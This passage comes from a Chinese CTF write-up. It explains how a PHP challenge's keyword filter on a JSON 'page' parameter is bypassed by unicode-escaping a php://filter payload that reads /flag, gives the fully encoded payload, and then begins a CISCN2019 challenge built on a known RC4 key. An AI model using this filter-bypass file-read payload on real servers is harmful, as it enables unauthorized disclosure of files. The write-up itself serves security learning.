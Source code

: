 ```php
  $page = $json['page'];
// file_get_contents指向page参数所指定的文件
  $content = file_get_contents($page);
  if (!$content || !is_valid($content)) { //对content也进行valid检测
    $content = "<p>not found</p>\n";
  }
} else {
  $content = '<p>invalid request</p>';
}

// no data exfiltration!!!
$content = preg_replace('/HarekazeCTF\{.+\}/i', 'HarekazeCTF{&lt;censored&gt;}', $content);
echo json_encode(['content' => $content]);


```
json_decode可以对unicode直接进行解码，但是函数匹配不到

```php

<?php
//\u0070\u0068\u0070是php的unicode编码
$body = '{"page":"\u0070\u0068\u0070"}';

echo $body;
$json = json_decode($body,true);
echo "\n";
var_dump($json);

```

所以思路就是将payload直接unicode编码传输
`php://filter/convert.base64-encode/resource=/flag`

captf帮一下忙吧
![在这里插入图片描述](https://img-blog.csdnimg.cn/df92457624d74200bf739827c4d243bc.png)
`{"page":"\u0070\u0068\u0070\u003a\u002f\u002f\u0066\u0069\u006c\u0074\u0065\u0072\u002f\u0063\u006f\u006e\u0076\u0065\u0072\u0074\u002e\u0062\u0061\u0073\u0065\u0036\u0034\u002d\u0065\u006e\u0063\u006f\u0064\u0065\u002f\u0072\u0065\u0073\u006f\u0075\u0072\u0063\u0065\u003d\u002f\u0066\u006c\u0061\u0067"}`

![在这里插入图片描述](https://img-blog.csdnimg.cn/db18e67323aa4f53a8b22a9d3849dbf2.png)
# [CISCN2019 华东南赛区]Double Secret

文件secret，传参secret
`/secret?secret=12312124`

报错页面
![在这里插入图片描述](https://img-blog.csdnimg.cn/23f05866c01941e283170094584cc63d.png)
使用RC4加密方式，且密钥已知，"HereIsTreasure"
